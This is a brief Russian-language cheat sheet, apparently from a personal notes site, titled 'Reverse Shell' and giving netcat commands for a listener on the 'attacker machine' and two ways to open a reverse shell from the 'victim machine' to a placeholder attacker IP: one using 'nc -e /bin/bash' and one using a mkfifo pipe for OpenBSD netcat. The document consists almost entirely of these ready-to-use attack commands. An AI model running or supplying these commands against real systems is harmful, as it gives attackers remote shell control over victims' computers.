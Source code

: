 ```yaml
---
title: Reverse Shell
description: Используя Traditional и OpenBSD Netcat
date: 2022-12-09T15:02:00+05:00
tags: [linux, ssh, hack]
---
```

## Машина атакующего
```shell
nc -lvp <port>
```
## Машина жертвы (Traditional Netcat)
```shell
nc <attacker-ip> <port> -e /bin/bash
```

## Машина жертвы (OpenBSD Netcat)
```shell
mkfifo /tmp/rev; nc <attacker-ip> <port> < /tmp/rev \
	| /bin/bash 2>&1 | tee /tmp/rev > /dev/null
```
